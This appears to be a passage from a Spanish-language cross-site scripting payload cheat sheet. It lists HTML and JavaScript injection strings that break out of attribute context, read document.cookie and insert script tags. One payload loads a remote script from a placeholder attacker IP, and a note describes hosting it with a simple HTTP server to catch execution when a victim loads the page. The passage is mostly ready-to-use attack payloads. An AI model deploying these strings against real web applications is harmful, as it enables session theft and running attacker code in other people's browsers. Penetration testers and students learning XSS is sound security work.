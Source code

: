 ```html
<img src=/ onerror=alert(document.cookie)>
```

---

**Payload combinado con ruptura de contexto y acceso a cookies**  
Diseñado para bypass en casos donde haya filtrado parcial o se necesite alterar el flujo del HTML.

```html
#"><img src=/ onerror=alert(document.cookie)>
```

---

**Payload con ruptura de contexto seguido de `<script>`**  
Este payload fuerza el cierre de un atributo o elemento HTML previo (`">`) y a continuación inyecta un `<script>`. Es útil para comprobar si podemos escapar de cadenas HTML y ejecutar JavaScript directamente.

```bash
"><script>alert("XSS")</script>
```

---

**Payload que accede a cookies**  
Comprobación básica para ver si se puede acceder al `document.cookie`, que puede permitir el robo de sesiones.

```html
<script>alert(document.cookie)</script>
```

---

**Payload con inclusión de script externo**  
Este payload escapa del contexto HTML (`">`) e inserta una etiqueta `<script>` que carga un archivo malicioso remoto. Es útil para pruebas más realistas, ya que permite ejecutar código JavaScript alojado en nuestro servidor de control.

```bash
"><script src="http://IP_ATACANTE/pwned.js"></script>
```

**Nota:**  Normalmente este tipo de payloads se usan junto con un servidor HTTP (por ejemplo con `python3 -m http.server 80`), para entregar el archivo `pwned.js` y capturar su ejecución cuando la víctima carga la página

---

## XSS en Contextos Específicos

Estos payloads están diseñados para situaciones donde la entrada del usuario no se refleja directamente en el cuerpo HTML, sino dentro de atributos, scripts embebidos, estructuras JSON, o incluso código JavaScript inline. Son muy útiles en aplicaciones modernas con frameworks JS o sanitizaciones parciales.

---

